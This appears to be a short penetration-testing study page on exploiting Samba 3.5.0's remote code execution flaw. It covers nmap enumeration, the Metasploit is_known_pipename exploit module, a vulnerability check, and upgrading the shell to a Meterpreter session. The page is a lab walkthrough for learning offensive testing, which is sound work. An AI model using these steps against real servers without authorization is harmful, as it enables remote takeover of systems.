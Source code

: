 # Exploiting Samba

* SMB is a network file sharing protocol that is used to facilitate the sharing of files and periherals between computers on a local network (LAN).
* Samba V3.5.0 is vulnerable to a remote code execution vunerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

## Practice Demo

#### Enumerate the target using the db\_nmap&#x20;

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Use the module:

* <mark style="color:yellow;">exploit/linux/samba/is\_known\_pipename</mark>

Run the "<mark style="color:red;">check</mark>" command to know if the target is vulnerable

This module gives a command shell session on the target

#### Upgrading the command shell to a  meterpreter session

* <mark style="color:yellow;">post/multi/manage/shell\_to\_meterpreter</mark>

Set the required options
